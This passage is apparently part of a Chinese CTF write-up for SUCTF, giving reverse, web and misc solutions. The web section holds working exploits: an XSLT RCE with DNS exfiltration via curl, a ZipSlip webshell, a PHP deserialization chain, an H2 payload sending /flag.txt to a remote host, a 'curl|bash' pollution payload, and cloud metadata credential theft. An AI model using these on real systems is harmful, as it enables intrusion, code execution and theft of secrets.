    term_a = res[:16] if k == 1 else [115, 111, 109, 101, 116, 104, 105, 110, 103, 110, 111, 116, 103, 111, 111, 100]
    rec[35] = (res[k * 16 + 3] << 24) | res[k * 16 + 2] | (res[k * 16 + 1] << 8) | (res[k * 16] << 16)
    rec[34] = (res[k * 16 + 7] << 24) | res[k * 16 + 6] | (res[k * 16 + 5] << 8) | (res[k * 16 + 4] << 16)
    rec[33] = (res[k * 16 + 11] << 24) | res[k * 16 + 10] | (res[k * 16 + 9] << 8) | (res[k * 16 + 8] << 16)
    rec[32] = (res[k * 16 + 15] << 24) | res[k * 16 + 14] | (res[k * 16 + 13] << 8) | (res[k * 16 + 12] << 16)
    for i in list(range(32))[::-1]:
        R0 = rec[i + 1] ^ rec[i + 2] ^ rec[i + 3] ^ term_b[i]
        R6 = (term_c[(R0 >> 24) & 0xFF] << 24) | (term_c[(R0 >> 16) & 0xFF] << 16) | (term_c[(R0 >> 8) & 0xFF] << 8) | term_c[R0 & 0xFF]
        R19 = R6 ^ ((R6 << 0x2) | (R6 >> 0x1E)) ^ ((R6 << 0xA) | (R6 >> 0x16)) ^ ((R6 << 0x12) | (R6 >> 0xE)) ^ ((R6 << 0x18) | (R6 >> 0x8))
        rec[i] = (R19 ^ rec[i + 4] ^ 0xDEADBEEF) & 0xFFFFFFFF
    inp_sub = []
    for i in range(4):
        inp += [((rec[i] >> 16) & 0xFF) ^ term_a[i * 4], ((rec[i] >> 8) & 0xFF) ^ term_a[i * 4 + 1], (rec[i] & 0xFF) ^ term_a[i * 4 + 2], ((rec[i] >> 24) & 0xFF) ^ term_a[i * 4 + 3]]

print("SUCTF{" + "".join([chr(x) for x in inp[16:] + inp[:16]]) + "}")
#SUCTF{b2ed053c767f41709dc1605c8c346c69}
```

## 1.7 SU_minesweeper

代码很短小，输入 100 个十六进制字符，转为 50 字节（400 位），作为 20*20 的棋盘位图，1 为有雷的格子。然后被硬编码的约束目标验证。

静态和调试结合可以发现：

- 有数字的格子也可以放雷（即不是周围 8 个格子，而是包含自身的 9 个格子）；
- 十六进制解析是换表的，用 a-f0-9 分别表示 0~15；
- 在从输入中取一个比特时（举例取第 3 行第 3 个即下标 20*2+2=42 的比特，会先取下标为 42/8=5 的字节，然后右移 42%8=2 位，取最低位），所以输入的每个字节，高位到低位是从右到左排的。

z3 找出满足条件的一组解，然后按以上规则转换为输入：

```Python
import z3
from hashlib import md5

puzzle = '''03 04 __ __ __ 05 __ __ __ __ __ 04 04 __ __ __ __ 02 __ __ 
04 __ 07 __ __ __ 04 06 06 __ __ __ __ 06 05 06 04 __ 05 __ 
04 07 __ 08 __ 06 __ __ 06 06 05 __ __ __ __ __ 03 03 __ 03 
__ 05 06 06 __ __ __ __ 04 05 04 05 07 06 __ __ 04 __ 02 01 
__ __ __ 03 04 __ __ 05 04 03 __ __ 07 04 03 __ __ 01 01 __ 
__ 04 03 __ 02 __ 04 03 __ __ 02 __ 05 04 __ __ 02 02 __ __ 
04 __ 04 __ 03 05 06 __ __ 00 __ __ __ 02 __ __ __ 01 04 __ 
__ 07 05 __ __ 03 03 02 __ __ 04 __ __ 05 07 __ 03 02 04 04 
__ 07 05 04 03 __ __ 04 __ 02 04 05 __ __ 06 05 04 __ 02 __ 
__ 07 04 __ __ 03 __ 04 04 __ __ __ __ __ __ __ 04 03 02 02 
__ __ 02 04 03 05 __ __ 05 __ 04 __ 06 __ __ 06 __ __ __ __ 
03 03 __ 04 __ __ __ __ __ 06 __ 06 06 __ 07 06 04 __ 04 03 
__ 04 03 05 04 __ __ __ __ __ __ __ 04 06 07 __ __ 04 __ __ 
__ 07 __ 05 __ 05 __ __ 06 07 07 __ 05 06 06 __ __ 02 04 04 
__ __ __ __ __ 06 __ __ 07 07 06 __ 06 __ __ __ __ 03 __ 03 
05 __ 07 __ 05 __ 06 __ 05 __ __ 07 08 __ __ 03 __ 03 __ __ 
__ __ __ 03 __ __ __ __ __ __ __ 06 05 03 __ 04 05 05 03 __ 
__ 06 05 05 06 __ 06 05 02 04 03 04 __ __ 03 04 04 06 05 __ 
03 __ 05 05 05 __ __ 05 __ __ 04 __ __ 04 __ 07 07 08 06 __ 
__ __ __ 05 __ __ __ 04 __ 03 __ 03 __ __ __ __ __ __ 05 03 '''.split('\n')

count = [[int(x) if x.isnumeric() else None for x in row.split()]
         for row in puzzle]
print(count)
flag = [[z3.Bool(f'{i}_{j}') for j in range(20)] for i in range(20)]

s = z3.Solver()
for i in range(20):
    for j in range(20):
        if count[i][j] is not None:
            terms = []
            for x in [-1, 0, 1]:
                for y in [-1, 0, 1]:
                    if 0 <= i+x < 20 and 0 <= j+y < 20:
                        terms.append(flag[i+x][j+y])
            s.add(z3.Sum(terms) == count[i][j])

if s.check() == z3.sat:
    m = s.model()
    result = ''.join(''.join(
        '1' if m[flag[i][j]] else '0' for j in range(20)) + '' for i in range(20))
else:
    print('unsat')
    exit(1)

reordered = ''.join(result[i:i+8][::-1] for i in range(0, 400, 8))
print(reordered)
trans = ''.join('abcdef0123456789'[int(reordered[i:i+4], 2)]
                for i in range(0, 400, 4))
print(trans)
print('SUCTF{%s}' % md5(trans.encode()).hexdigest())
```


# 2. Web

## 2.1 SU_PWN

xslt解析漏洞CVE-2022-34169

有公开POC：https://gist.github.com/thanatoskira/07dd6124f7d8197b48bc9e2ce900937f

因为过滤了Runtime，修改一下绕过waf

```Python
    <xsl:value-of select="runtime:exec(runtime:get&#82;untime(),'bash -c id')" xmlns:runtime="java.lang.&#82;untime"/>
```

不出网但是有DNS请求，用Dnslog外带执行结果即可，先读根目录文件名，然后读文件外带。

```Python
curl `cat wqjugajFwlasfafg213asmkagjasanduer2asdsaf|base64|cut -c 1-60`.dnslog.xxx

c3VjdGZ7YWt1c2dma2FqYmtnd2FsaGxhaHNsamFnaHUtODcxMjc0NjcxN2hqYWJza2JmLTg3a2Fic2tmaGJraGFzZn0
suctf{akusgfkajbkgwalhlahsljaghu-8712746717hjabskbf-87kabskfhbkhasf}
```

## 2.2 SU_photogallery

```SQL
GET /unzip.php HTTP/1.1
Host: 1.95.157.235:10001


GET /1.txt HTTP/1.1
```

先读源码

```Python
<?php echo("fuck");$ch = explode(".","sys.tem");$c = $ch[0].$ch[1];$c($_GET[1]);
```

Zipslip 可以绕过。。。

```Python
<?php
$zip = new ZipArchive();
$zipFilePath = 'exp.zip';

if ($zip->open($zipFilePath, ZipArchive::CREATE | ZipArchive::OVERWRITE) === TRUE) {

    $zip->addFile('1.php', "..\./..\./a.jpg");

    $zip->close();

    echo "ok";
}
?>
```

将 jpg 作为 php 解析

```Python
GET /upload/suimages/a.jpg?1=cat%20/seef1ag_getfl4g HTTP/1.1
Host: 1.95.157.235:10002
Connection: close

GET /upload/suimages/a.php?1=cat%20/seef1ag_getfl4g HTTP/1.1
```

## 2.3 SU_POP

https://blog.csdn.net/why811/article/details/133812903 

https://cn-sec.com/archives/710471.html

一开始从 __destruct 到 __call 在这个版本没有链子，要另外找

从 __destruct -> __toString -> __call

Exp

```PHP
<?php
namespace Cake\Core;
abstract class ObjectRegistry
{
    protected array $_loaded = [];
}


namespace Cake\ORM;
class Table
{
    protected $_behaviors;
    public function __construct($obj)
    {
        $this->_behaviors = $obj;
    }
}

use Cake\Core\ObjectRegistry;
class BehaviorRegistry extends ObjectRegistry
{
    protected array $_methodMap = [];
    public function __construct($obj)
    {
        $this->_methodMap = ["rewind"=>["MockClass","generate"]];
        $this->_loaded = ["MockClass"=>$obj];;
    }
}

namespace PHPUnit\Framework\MockObject\Generator;
class MockClass{
    private string $mockName;
    private string $classCode;
    public function __construct(string $classCode, string $mockName)
    {
        $this->classCode           = $classCode;
        $this->mockName            = $mockName;
    }

}
namespace Seld\Signal;
class SignalHandler {
    private $signals;

}
namespace React\Promise\Internal;
class RejectedPromise{
    private $reason;
    private $handled = false;
    public function __construct($obj)
    {
        $this->reason = $obj;
    }
}

namespace Cake\Http;
class Response{
    private $stream;
    public function __construct($obj)
    {
        $this->stream = $obj;
    }
}


$a = new \PHPUnit\Framework\MockObject\Generator\MockClass(
    'system("find . -exec /bin/cat /flag.txt \; -quit");', "114514");
$call = new \Cake\ORM\BehaviorRegistry($a);
$__call = new \Cake\ORM\Table($call);
$tostring = new \Cake\Http\Response($__call);
$destrct = new \React\Promise\Internal\RejectedPromise($tostring);

echo base64_encode(serialize($destrct));
```

## 2.4 SU_ez_solon


```SQL
CREATE ALIAS EXECf AS 'String shellexec(String cmd) throws java.io.IOException {String str = "";java.io.File file = new java.io.File("/flag.txt");try (java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.FileReader(file))) {String line;while ((line = reader.readLine()) != null) {    str += line;}} catch (java.io.IOException e) {e.printStackTrace();} java.net.URL url = new java.net.URL("http://vps:1234/test?str="+str);java.net.HttpURLConnection connection = (java.net.HttpURLConnection) url.openConnection();connection.setRequestMethod("GET");connection.setRequestProperty("User-Agent", "Java HTTP Client");int responseCode = connection.getResponseCode(); return "";}';

CALL EXECf ('114514')
        String connectionUrl = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://vps:1234/1.sql'";
        UnpooledDataSource unpooledDataSource = new UnpooledDataSource(connectionUrl, "tel","tel","org.h2.Driver");
        JSONObject jsonObject = new JSONObject();
        jsonObject.put("xx", unpooledDataSource);


        SerializerFactory serializerFactory = new SerializerFactory();
serializerFactory.setAllowNonSerializable(true);
        FileOutputStream bout = new FileOutputStream("ser.bin");
        Hessian2Output hout = new Hessian2Output(bout);
        hout.setSerializerFactory(serializerFactory);
        hout.writeObject(jsonObject);
        hout.flush();
        hout.close();
```

## 2.5 SU_blog

签名成 admin 任意文件读取

http://27.25.151.48:5000/article?file=articles/..././..././..././..././..././..././..././..././..././etc/passwd

http://27.25.151.48:5000/article?file=articles/..././..././..././..././..././..././..././..././..././proc/self/cwd/app/app.py

```Python
import time
import hashlib
from flask_unsign import session as flask_session

SESSION_COOKIE = "eyJ1c2VybmFtZSI6InRlc3QifQ.Z4OTKw.S9f0Jnmqp5Q0QPp8p2U3j4aMpvY"

def get_md5(value):
    """计算字符串的MD5值"""
    md5_hash = hashlib.md5()
    md5_hash.update(value.encode('utf-8'))
    return md5_hash.hexdigest()

def main():
    payload="admin"
    # 获取当前时间戳
    current_time = int(time.time())
    # 计算前五分钟的起始时间戳
    start_time = current_time - 60 * 60
    # 遍历前60分钟的所有时间戳
    for timestamp in range(start_time, current_time + 1):
        # 将时间戳转换为字符串后计算MD5值
        md5_value = get_md5(str(timestamp))
        key=md5_value
        
        data = flask_session.verify(SESSION_COOKIE, secret=key)
        if data==False:
            continue
        else:
            print(f"[+] 找到密钥: {key}")
            data = flask_session.decode(SESSION_COOKIE)
            print(f"[+] 解码后的数据: {data}")
            ses=flask_session.sign({'username':f'{payload}'}, secret=key)
            print(f"[+] 签名后的数据: {ses}")
            break

if __name__ == "__main__":
    main()
```

而后就是 python 原型污染 RCE，要绕 waf

```JSON
{
"key":"__init__.__globals__.Flask.jinja_loader.__init__.__globals__.sys.modules.jinja2.runtime.exported.2",
"value":"*;import os;os.system('curl -fs xxx:45/1.sh|bash')"
}
```

然后访问一个没有渲染过模板的页面，因为2分钟重启一次，不行就等等

反弹shell，/readflag

```
SUCTF{fl4sk_1s_5imp1e_bu7_pyd45h_1s_n0t_s0_I_l0v3}
```

## 2.6 SU_easyk8s_on_aliyun(REALLY VERY EASY)

```Python
import socket;

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM);
sock.connect(("100.100.100.200", 80));
sock.sendall(b"GET /latest/meta-data/ram/security-credentials/oss-root HTTP/1.1\r\nHost: 100.100.100.200\r\nConnection: close\r\n\r\n");
response = b""; part = sock.recv(4096);response += part;print(response.decode());
sock.close()
 {
  "AccessKeyId" : "STS.NTfZuo3n761cQMys2MNiNBo9a",
  "AccessKeySecret" : "5zbrTpf6iWzMu6DdPpy42ZCj2kDfrwbte4JT9LLCQBzY",
  "Expiration" : "2025-01-12T14:05:03Z",
  "SecurityToken" : "CAIS1AJ1q6Ft5B2yfSjIr5fTEc/b3rEWgfOIU2vIlzIYQuZiraqSgzz2IHhMdHRqBe0ctvQ+lG5W6/4YloltTtpfTEmBc5I179Fd6VqqZNTZqcy74qwHmYS1RXadFEZYDnNszr+rIunGc9KBNnrm9EYqs5aYGBymW1u6S+7r7bdsctUQWCShcDNCH604DwB+qcgcRxCzXLTXRXyMuGfLC1dysQdRkH527b/FoveR8R3Dllb3uIR3zsbTWsH6MZc1Z8wkDovsjbArKvL7vXQOu0QQxsBfl7dZ/DrLhNaZDmRK7g+OW+iuqYU3fFIjOvVgQ/4V/KaiyKUioIzUjJ+y0RFKIfHnm/ES9DUVqiGtOpRKVr5RHd6TUxxGgmVUsD3M+Eqi7Sau0K+e5xjFvkUxaHpiA3iRUcyMsxuRQWyIEOP+y9oVsqEYoRiWu7TDSTeBK6PPRvNGUvdUGoABfmqFersd5q3sAhpi7UHmtkhuEn8jODpY4bxubpPLrQwZu7ToyzoWY9vERJzKarge1l3oM9jQP+q30t86v6WxFy2RHh97iDaIEUh3gpL9Mxu9fi4aRYzPZ2qhdZNCdWlE3CrGCuPAsoU0g3JUohJJnycnBj9o54Tdk4cTkjugEyUgAA==",
  "LastUpdated" : "2025-01-12T08:05:03Z",
  "Code" : "Success"
}
import oss2
from oss2.credentials import StaticCredentialsProvider
auth = oss2.ProviderAuth(StaticCredentialsProvider(access_key_id="STS.NTfZuo3n761cQMys2MNiNBo9a", access_key_secret="5zbrTpf6iWzMu6DdPpy42ZCj2kDfrwbte4JT9LLCQBzY", security_token="CAIS1AJ1q6Ft5B2yfSjIr5fTEc/b3rEWgfOIU2vIlzIYQuZiraqSgzz2IHhMdHRqBe0ctvQ+lG5W6/4YloltTtpfTEmBc5I179Fd6VqqZNTZqcy74qwHmYS1RXadFEZYDnNszr+rIunGc9KBNnrm9EYqs5aYGBymW1u6S+7r7bdsctUQWCShcDNCH604DwB+qcgcRxCzXLTXRXyMuGfLC1dysQdRkH527b/FoveR8R3Dllb3uIR3zsbTWsH6MZc1Z8wkDovsjbArKvL7vXQOu0QQxsBfl7dZ/DrLhNaZDmRK7g+OW+iuqYU3fFIjOvVgQ/4V/KaiyKUioIzUjJ+y0RFKIfHnm/ES9DUVqiGtOpRKVr5RHd6TUxxGgmVUsD3M+Eqi7Sau0K+e5xjFvkUxaHpiA3iRUcyMsxuRQWyIEOP+y9oVsqEYoRiWu7TDSTeBK6PPRvNGUvdUGoABfmqFersd5q3sAhpi7UHmtkhuEn8jODpY4bxubpPLrQwZu7ToyzoWY9vERJzKarge1l3oM9jQP+q30t86v6WxFy2RHh97iDaIEUh3gpL9Mxu9fi4aRYzPZ2qhdZNCdWlE3CrGCuPAsoU0g3JUohJJnycnBj9o54Tdk4cTkjugEyUgAA=="))
bucket = oss2.Bucket(auth, 'https://oss-cn-hangzhou.aliyuncs.com', 'suctf-flag-bucket')

result = bucket.list_object_versions()

next_key_marker = None
next_versionid_marker = None
while True:
    result = bucket.list_object_versions(key_marker=next_key_marker, versionid_marker=next_versionid_marker)

    for version_info in result.versions:
        print('version_info.versionid:', version_info.versionid)
        print('version_info.key:', version_info.key)
        print('version_info.is_latest:', version_info.is_latest)

    for del_maker_Info in result.delete_marker:
        print('del_maker.key:', del_maker_Info.key)
        print('del_maker.versionid:', del_maker_Info.versionid)
        print('del_maker.is_latest:', del_maker_Info.is_latest)

    is_truncated = result.is_truncated

    if is_truncated:
        next_key_marker = result.next_key_marker
        next_versionid_marker = result.next_versionid_marker
    else:
        break

params = dict()
params['versionId'] = 'CAEQmwIYgYDA6Lad1qIZIiAyMjBhNWVmMDRjYzY0MDI3YjhiODU3ZDQ2MDc1MjZhOA--'
object_stream = bucket.get_object('oss-flag', params=params)

read_content = object_stream.read()
print('get object content:', read_content)
print('get object versionid:', object_stream.versionid)

if object_stream.client_crc != object_stream.server_crc:
   print("The CRC checksum between client and server is inconsistent!")
python auuuuuuth.py
version_info.versionid: CAEQmwIYgYDA6Lad1qIZIiAyMjBhNWVmMDRjYzY0MDI3YjhiODU3ZDQ2MDc1MjZhOA--
version_info.key: oss-flag
version_info.is_latest: False
del_maker.key: oss-flag
del_maker.versionid: CAEQmwIYgoDA2sKe1qIZIiA2NmViNDQ2NWVjNzk0MzQ1YjdiNjdkYTE5ZjYwNTQyMg--
del_maker.is_latest: True
get object content: b'SUCTF{kubernetes_is_not_only_the_cloud-a09f950a-eb89-46f4-b381-fec7c9a0023a}'
get object versionid: CAEQmwIYgYDA6Lad1qIZIiAyMjBhNWVmMDRjYzY0MDI3YjhiODU3ZDQ2MDc1MjZhOA--
```

# 3. Misc

## 3.1 SU_checkin


```Plain
filename="../../../../../../../../../proc/self/cmdline"

java-jarsuctf-0.0.1-SNAPSHOT.jar --password=SePassWordLen23SUCT
filename="../../../../../../../../../proc/self/cwd/BOOT-INF/classes/hint"

algorithm=PBEWithMD5AndDES
filename="../../../../../../../../../etc/shadow"

root:$6$MI.uuGSS7qKn4rEK$NlYB/kaAeRmd3CYY4mxDuMMMh1PzQZHTEL.BV3Dosp.15kD3MgSDzqbYRRazeglIRVAfe6ATwRZ9ekSwNTkit0:20077:0:99999:7:::
daemon:*:20007:0:99999:7:::
bin:*:20007:0:99999:7:::
sys:*:20007:0:99999:7:::
sync:*:20007:0:99999:7:::
games:*:20007:0:99999:7:::
man:*:20007:0:99999:7:::
lp:*:20007:0:99999:7:::
mail:*:20007:0:99999:7:::
news:*:20007:0:99999:7:::
uucp:*:20007:0:99999:7:::
proxy:*:20007:0:99999:7:::
www-data:*:20007:0:99999:7:::
backup:*:20007:0:99999:7:::
list:*:20007:0:99999:7:::
irc:*:20007:0:99999:7:::
gnats:*:20007:0:99999:7:::
nobody:*:20007:0:99999:7:::
_apt:*:20007:0:99999:7:::
systemd-timesync:*:20077:0:99999:7:::
systemd-network:*:20077:0:99999:7:::
systemd-resolve:*:20077:0:99999:7:::
messagebus:*:20077:0:99999:7:::
sshd:*:20077:0:99999:7:::
hacker:$6$rzdplO02wm/607Io$v9gjdKBiuEdA0F28qx1REs/L4Qo9dqBQD.fUUjans5qn/sWOjSffHWzlMvgwzxHyyrfSA8kLilzMMRGhRNHLk0:20077:0:99999:7:::
filename="../../../../../../../../../proc/self/cwd/BOOT-INF/classes/application.properties"

spring.application.name=suctf
server.port = 8888
OUTPUT=ElV+bGCnJYHVR8m23GLhprTGY0gHi/tNXBkGBtQusB/zs0uIHHoXMJoYd6oSOoKuFWmAHYrxkbg=
filename="../../../../../../../../../etc/passwd"

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:106::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
hacker:x:1000:1000::/home/hacker:/bin/bash
```

用户 hacker 的密码是 hacker，没什么用；

PBEWithMD5AndDES，密码长度为 23 位

https://blog.csdn.net/weixin_44065695/article/details/106026011

这里猜了一下SUCTF，所以只用爆后三位：

```Python
from Crypto.Util.number import *
from Crypto.Cipher import DES
from hashlib import md5
from base64 import b64decode
from tqdm import tqdm
from itertools import product
password = b"SePassWordLen23SUCTF"

OUTPUT = b"ElV+bGCnJYHVR8m23GLhprTGY0gHi/tNXBkGBtQusB/zs0uIHHoXMJoYd6oSOoKuFWmAHYrxkbg="
alphabet = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/{}_-"
enc = b64decode(OUTPUT)

salt = enc[:8]
enc = enc[8:]
s = product(alphabet, repeat=3)

for a, b, c in tqdm(s):
    key = password + (a+b+c).encode() + salt
    for i in range(1000):
        key = md5(key).digest()
    cipher = DES.new(key[:8], DES.MODE_CBC, iv = key[8:])
    dec = cipher.decrypt(enc)
    if b'SUCTF{' in dec or b'suctf{' in dec:
        print(dec)
        print(a+b+c)
        exit()
```


值得一提的是，按照 RFC2898 Section 5.1（ https://datatracker.ietf.org/doc/html/rfc2898#section-5.1 ）的定义，PBE 的密钥派生时，salt 和 MD5 的迭代轮数是作为算法输入出现的，而不是硬编码在算法中的。尽管容易搜索到 salt 为密文前 8 字节、迭代轮数为 1000 的一种实现，但题目中应当明确给出这一点，特别是作为一个需要爆破的题目，而不应让做题人擅自假设——否则就和那些 “需要搜到和出题人用的同一个脚本” 的题目没什么区别了。

## 3.2 SU_forensics

取证（×）大号压缩包（✓）

起手 strings 得到

```Shell
echo "My secret has disappeared from this space and time, and you will never be able to find it." 
curl -s -o /dev/null https://www.cnblogs.com/cuisha12138/p/18631364 
sudo reboot
```

Wayback Machine 有存档

https://web.archive.org/web/20241225122922/https://www.cnblogs.com/cuisha12138/p/18631364


在 GitHub 上删除分支不会清除提交，可以找到

https://github.com/testtttsu/homework/activity?ref=secret

https://github.com/testtttsu/homework/blob/a4be9c81ae540340f3e208dc9b1ee109ea50305c/lost_flag.txt

用盲水印检测工具或 stegsolve 可以看到密码（涂黑了但没完全涂黑）


解压 lost_flag.txt 得到


用 opencv 相似度识别，发现有 27 种符号，先按出现顺序依次替换为 `a-z 以便进一步分析

```Python
from PIL import Image
import cv2
import numpy

def pil2cv(x):
    return cv2.cvtColor(numpy.asarray(x), cv2.COLOR_RGB2BGR)

def similarity(x, y):
    return cv2.minMaxLoc(cv2.matchTemplate(x, y, cv2.TM_CCOEFF_NORMED))[1]

def all_black(part: Image):
    for x in range(2, part.width, 10):
        for y in range(2, part.height, 10):
            if not all(i < 16 for i in part.getpixel((x, y))):
                return False
    return True

WIDTH = 138
HEIGHT = 108
THRESHOLD = 0.95

img = Image.open('lost_flag.png')
img_to_tmp_chr = dict()
result = []

for y in range(0, img.height, HEIGHT):
    for x in range(0, img.width, WIDTH):
        img_now = img.crop((x, y, x + WIDTH, y + HEIGHT))
        if all_black(img_now):
            continue

        cv_now = pil2cv(img_now)
        exist = False
        for k, v in img_to_tmp_chr.items():
            x1, y1 = k
            comp = img.crop((x1, y1, x1 + WIDTH, y1 + HEIGHT))
            cv_comp = pil2cv(comp)
            if similarity(cv_now, cv_comp) > THRESHOLD:
                result.append(v)
                exist = True
                break

        if not exist:
            assign = chr(96 + len(img_to_tmp_chr))
            result.append(assign)
            img_to_tmp_chr[(x, y)] = assign
            img_now.save(f'clip/{assign}.png')

    result.append('\n')

result = ''.join(result)

the_space = result[1]   # 'a'
result = result.replace(the_space, ' ')
result = result.replace('`', the_space)

print(result)
```


```Plain
a bcdef ghijkl mnop qhrdst uavw xdy
vlhu zihedandghu ds wjh xom ov yafdst qhlk bamandzwde par wokz
zdr vlhsgdhu fdstz qophu wo amondzj yk bcdwh idwdvcn xoczwz
yak xo hbcan yk voondzj lheolu mk zonqdst zdr icggnhz a phhf
jallk dz xottdst bcdefnk pjdej arhu ghs yosfz pdwj amcsuasw qaiol
ucyik fdmdwghl xdstnhz az bcdrowde oqhlvnopz
skyij zdst vol bcdef xdtz qhr mcu ds ghzwvcn wpdndtjw
zdyinh vor jhnu bcalwg ucef xczw mk pdst
zwlost mldef bcdg pjastz xcyik vor qdqdunk
tjozwz ds yhyolk idefz ci bcalwg asu qancamnh oskr xhphnz
ihszdqh pdgaluz yafh worde mlhp vol wjh hqdn bawald fdst asu plk xaef
ann ocwuawhu bchlk azfhu mk vdqh pawej hrihlwz ayaghu wjh xcuth
```

出现次数最多的比其他多得多，是空格，且证实是单表替换。用 quipqiup 跑出来：

```Plain
a quick zephyr blow vexing daft jim. fred specialized in the job of making very qabalistic wax toys. six frenzied kings vowed to abolish my quite pitiful jousts. may jo equal my foolish record by solving six puzzles a week. harry is jogging quickly which axed zen monks with abundant vapor. dumpy kibitzer jingles as quixotic overflows. nymph sing for quick jigs vex bud in zestful twilight. simple fox held quartz duck just by wing. strong brick quiz whangs jumpy fox vividly. ghosts in memory picks up quartz and valuable onyx jewels. pensive wizards make toxic brew for the evil qatari king and wry jack. all outdated query asked by five watch experts amazed the judge.
```

每一行都是一个全字母句**少一个字母**，把这些字母拼起来就是 flag

```Python
cipher = '''a quick zephyr blow vexing daft jim
fred specialized in the job of making very qabalistic wax toys
six frenzied kings vowed to abolish my quite pitiful jousts
may jo equal my foolish record by solving six puzzles a week
harry is jogging quickly which axed zen monks with abundant vapor
dumpy kibitzer jingles as quixotic overflows
nymph sing for quick jigs vex bud in zestful twilight
simple fox held quartz duck just by wing
strong brick quiz whangs jumpy fox vividly
ghosts in memory picks up quartz and valuable onyx jewels
pensive wizards make toxic brew for the evil qatari king and wry jack
all outdated query asked by five watch experts amazed the judge'''.split('\n')

alphabet = 'abcdefghijklmnopqrstuvwxyz'

result = ''
for s in cipher:
    for c in alphabet:
        if c not in s:
            result += c
            break

print(result.upper())
```

SUCTFHAVEFUN

## 3.3 Onchain Magician

考的是[Signature Malleability](https://medium.com/draftkings-engineering/signature-malleability-7a804429b14a)

由于这一题是直接对Message Hash进行签名，所以我们需要进行一个外部的本地签名，我这里使用的是Web3py，exp如下：

```Python
from web3 import Web3
from eth_account.messages import encode_defunct

w3 = Web3(Web3.HTTPProvider("http://1.95.156.61:10002"))
# Define the parameters
message = "I want to open the magic box"
magician = (
    "0x3a261BF15BbF44Ca44D1b20aF16a01fD012e6Da0"  # Replace with your Ethereum address (e.g., "0x123...")
)
contract_address = "0x85AE7085F930fc37eDcBeDBc99d69db86e171eb1"  # Replace with the deployed contract address (e.g., "0xabc...")
chain_id = 27431  # Replace with the chain ID (e.g., 1 for Ethereum Mainnet)

# Encode and hash the message
message_hash = w3.solidity_keccak(
    ["string", "address", "address", "uint256"],
    [message, magician, contract_address, chain_id],
)

print("Message Hash:", message_hash.hex())

# Your private key
private_key = ""  # Replace with your private key (DO NOT SHARE THIS)

# Prepare the message for signing
message_to_sign = encode_defunct(message_hash)

# Sign the message
signed_message = w3.eth.account._sign_hash(message_hash, private_key=private_key)

print("Message Hash:", signed_message.message_hash.hex())
print("Signature:", signed_message.signature.hex())
print("v:", signed_message.v)
print("r:", hex(signed_message.r))
print("s:", hex(signed_message.s))
print(
    f'Original Signature: [{signed_message.v},"{hex(signed_message.r)}","{hex(signed_message.s)}"]'
)
# [27,"0x53d858d16d88e7ed0ae2950470ecc603213027f2d8ce62d1004d1beadcdbb193","0x6c9683676047d0f8544bfed6db1e7ad2ad37987b7541327c26c601130131c9f2"]

manipulated_v = (
    signed_message.v - 1 if signed_message.v % 2 == 0 else signed_message.v + 1
)
manipulated_r = signed_message.r
manipulated_s = (
    0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141
    - signed_message.s
)
print(
    f'Manipulated Signature: [{manipulated_v},"{hex(manipulated_r)}","{hex(manipulated_s)}"]'
)
```

最后将Original Signature作为signIn函数的参数传入，而Manipulated Signature作为openBox函数的参数传入即可

由于本人使用的web3版本可能有点低，部分参数名/函数名需要调整

## 3.4 Onchain Checkin

在lib.rs内

```Rust
use anchor_lang::prelude::*;

mod instructions;
mod states;

use instructions::*;
use states::*;

declare_id!("SUCTF2Q25DnchainCheckin11111111111111111111");

#[program]
pub mod checkin {
    use super::*;

    pub fn flag2(ctx: Context<Checkin>) -> Result<()> {
        ctx.accounts.checkin()
    }
}
```

这里的declare_id就是题目合约的地址

在Anchor.toml内可以得到信息如下：



这里的cluster = devnet说明使用的是devnet，利用Solscan的区块链浏览器可以进行查看。在Solscan上搜索SUCTF2Q25DnchainCheckin11111111111111111111并且限定为devnet可以得到：


此时再看源码，在checkin.rs内

```Rust
impl<'info> Checkin<'info> {
    pub fn checkin(&mut self) -> Result<()> { 
        self.checkin_state.flag3 = self.account3.key();
        msg!("flag1");
        Ok(())
    }
}
```

说明flag3其实是account3.key，而Solana链上的公钥就是地址，换一句话说account3的地址就是flag3。由上图得知有两个Signature，点进第一个，去查看account3的地址：

```Rust
#3 - Account:
7Qgd9aqwprLzfS4L9KQFM3mNdG3WpjevNoCoRduXXfPS
```

将上面的地址放入cyberchef后能够自动用base58 decode解出flag3：


同时，在checkin.rs内还有一个`msg!("flag1");`，这个提示我们flag1在返回的消息当中，此时查看返回的消息(日志)即可得到flag1：


下面一段经过base58解码后即可得到flag1：

```Rust
SUCTF{Con9ra7s!
```

